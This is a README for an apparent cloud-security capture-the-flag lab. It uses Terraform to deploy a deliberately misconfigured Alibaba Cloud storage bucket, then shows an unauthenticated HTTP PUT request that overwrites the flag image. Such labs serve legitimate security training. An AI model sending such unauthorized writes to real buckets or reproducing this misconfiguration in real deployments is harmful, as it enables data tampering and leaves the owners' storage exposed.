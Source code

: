 # Description

English | [中文](./README_CN.md)

This is a script to help you quickly build storage buckets for unauthorized uploads, have fun!

## Deployment environment

### Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/unrestricted_file_upload/ 
```

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

Configure Alibaba Cloud Access Credentials

```shell
aliyun configure
```

> You can create and view your AccessKey on the [AccessKey page](https://ram.console.aliyun.com/manage/ak) of the Alibaba Cloud console

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

If you confirm that there is no problem, type yes and wait for the build

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

Visit /hx.png to get the image

![image-20220425192605952](../../../images/image-20220425192605952.png)

This image can be overwritten by using the PUT method

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

Afterwards, we use the GET method to get the contents of our overwritten

![image-20220425192649111](../../../images/image-20220425192649111.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
